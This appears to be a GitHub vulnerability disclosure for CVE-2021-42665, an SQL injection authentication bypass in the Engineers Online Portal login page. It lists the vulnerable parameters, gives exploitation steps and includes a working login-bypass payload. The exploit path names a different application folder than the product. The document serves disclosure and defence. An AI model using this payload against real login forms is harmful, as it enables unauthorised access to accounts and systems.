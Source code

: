 # CVE-2021-42665
CVE-2021-42665 - SQL Injection authentication bypass vulnerability in the Engineers online portal system. 
 
# Technical description:
An SQL Injection vulnerability exists in the Engineers Online Portal login form which can allow an attacker to bypass authentication. 

Affected components - 

Vulnerable page - login.php

Vulnerable parameter - "username", "password"

# Steps to exploit:
1) Navigate to http://localhost/nia_munoz_monitoring_system/login.php
2) Insert your payload in the username or password field 
3) Click login

# Proof of concept (Poc) -
The following payload will allow you to bypass the authentication mechanism of the Engineers Online Portal login form - 
```
sqli' OR '1'='1';-- -
```

![CVE-2021-42665](https://user-images.githubusercontent.com/93016131/140184038-d7e03847-ccf5-434e-bf5d-27ce4da2665e.gif)

# References - 
https://www.exploit-db.com/exploits/50452

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42665

https://nvd.nist.gov/vuln/detail/CVE-2021-42665

# Discovered by - 
Alon Leviev(0xDeku), 22 October, 2021. 

